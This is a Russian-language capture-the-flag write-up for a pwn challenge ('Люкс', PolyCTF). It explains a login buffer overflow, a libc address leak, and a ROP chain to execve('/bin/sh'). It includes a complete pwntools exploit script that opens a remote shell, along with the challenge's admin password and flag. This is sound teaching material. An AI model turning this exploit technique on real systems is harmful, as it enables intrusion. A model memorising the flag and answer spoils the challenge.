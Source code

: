 # Люкс | medium | pwn

## Информация
> Герой уже неделю живёт в этом роскошном отеле, но назвать его отдых идеальным сложно. Стандартный номер, скрипучая кровать, тусклый свет — явно не то, на что он рассчитывал. В соседних номерах постояльцы наслаждаются панорамными видами, джакузи и персональным обслуживанием, пока он вынужден мириться с этой посредственностью. Такое положение дел его не устраивает. Пора переселяться. Всё, что нужно, — изменить один параметр в базе данных. Ходят слухи, что сеть отеля не так уж и защищена, а доступ к серверу можно получить через уязвимость в роутере...

## Выдать участникам
файл [luxury](public/luxury)

## Описание
Для решения надо заметить переполнение буфера и возможность составить ROP-цепочку.

## Решение
Открываем бинарь, анализируем его. Флаг нигде не выводится, значит надо как-то получить шелл.

На этапе логинизации видим, что можно переполнить одну из переменных

![alt text](solve/image-1.png)

(**s1 переполняется**)

Канарейка отсутвует, значит можем перетереть адрес возврата и составить ROP цепочку на execve("/bin/sh")

Чтобы это сделать нам нужны гаджеты и база libc

Базу можно найти с помощью функции админа, там выводятся адреса функций (берем последние три цифры и ищем libc на libc.rip)

![alt text](solve/image-2.png)

(**Вывод адресов**)

После нахождения версии libc можно ее скачать и начать писать сплоит

Алгоритм будет следующим: сначала закидываем номер системного вызова, затем очищаем rsi, rdx, после закидываем в rdi адрес /bin/sh и делаем syscall

Гаджеты можно найти в libc с помощью утилиты ROPgadget

Код сплоита:

```python
from pwn import *

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
exe = ELF("./luxury")
# s = process("./luxury")
s = remote("tasks.polyctf.ru", 30006)

s.recvuntil(b": ")
s.sendline(b"admin")
s.recvuntil(b": ")
s.sendline(b"V3rY_sTroNg_p1ss")

s.recvuntil(b"> ")
s.sendline(b"1")

s.recvuntil(b"-> ")

leak = s.recvline().strip()

# OFFSET_PRINTF = libc.symbols["printf"]
OFFSET_PRINTF = 0x525b0
LIBC_BASE = int(leak, 16) - OFFSET_PRINTF

print(hex(LIBC_BASE))

s.recvuntil(b"> ")
s.sendline(b"5")

s.recvuntil(b": ")
s.sendline(b"AAAA")

# bin_sh = 0x197e34
bin_sh = 0x196031
pop_rdi = 0x00000000000277e5
pop_rsi = 0x0000000000028f99
pop_rax = 0x000000000003f197
pop_rdx = 0x00000000000fde7d
syscall = 0x0000000000026428

ROP = p64(LIBC_BASE + pop_rax)
ROP += p64(0x3b)
ROP += p64(LIBC_BASE + pop_rdi)
ROP += p64(LIBC_BASE + bin_sh)
ROP += p64(LIBC_BASE + pop_rsi)
ROP += p64(0x0)
ROP += p64(LIBC_BASE + pop_rdx)
ROP += p64(0x0)
ROP += p64(LIBC_BASE + syscall)

s.sendline(b"A" * 32 + p64(0xCAFEBABE) + ROP)

s.interactive()


```
 
## Флаг
`PolyCTF{N0_R3tUrn_t0_hOm3}`
